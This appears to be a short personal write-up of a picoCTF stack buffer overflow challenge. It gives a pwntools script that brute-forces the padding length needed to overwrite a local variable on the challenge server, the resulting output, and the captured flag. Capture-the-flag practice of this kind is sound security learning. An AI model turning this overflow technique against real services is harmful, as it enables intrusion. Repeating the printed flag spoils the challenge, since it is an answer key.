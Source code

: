 ```yaml
---
created: 2024-08-08T02:36
updated: 2024-11-16T19:43
---
```


Brute force the overflow.

```python
from pwn import *
context.log_level = 'error'
# nc saturn.picoctf.net 57660
for i in range(100):
    r = remote('saturn.picoctf.net', 57660)
    r.sendlineafter(b': ', b'a'*i+p32(65))
    print(i, r.recvall())
    r.close()
```

```
23 b'\nnum is 0\nBye!\n'
24 b'\nnum is 65\nYou win!\npicoCTF{l0c4l5_1n_5c0p3_7bd3fee1}\n'
25 b'\nnum is 16737\nBye!\n'
```

Huh, it is not 16.
Maybe there is some padding?

```flag
picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}
```
